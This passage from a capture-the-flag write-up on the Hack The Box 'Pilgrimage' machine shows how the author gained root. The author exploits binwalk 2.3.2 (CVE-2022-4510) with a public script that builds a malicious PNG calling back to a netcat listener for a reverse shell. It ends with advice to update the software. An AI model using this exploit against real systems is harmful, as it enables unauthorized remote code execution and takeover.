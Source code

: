 ```bash
done
```

The script is checking for the `/var/www/pilgrimage.htb/shrunk` for the created files and analyzes them using `binwalk`.

Checking the version of `binwalk` in the box we found it's `Binwalk v2.3.2`.

This version is vulnerable to [Code Execution](https://www.exploit-db.com/exploits/51249).

![q](6.png)

Let's download the exploit and create the malicious file.

```shell
$ python binwalkexploit.py codium.png 10.10.17.90 9001                                                                                               2 ⨯

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.

                                                                                                                                                              
┌─[sirius@ParrotOS]─[~/CTF/HTB/Machines/pilgrimage]
└──╼ $ ls    
binwalk_exploit.png
```

Let's setup a listener and upload the file.

![q](7.png)

Right after we upload the file we get a root shell.

## **Prevention and mitigation**

### CVE

The machine uses two outdated and vulnerable programs `magick` and `binwalk`. They should be updated to a newer version.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
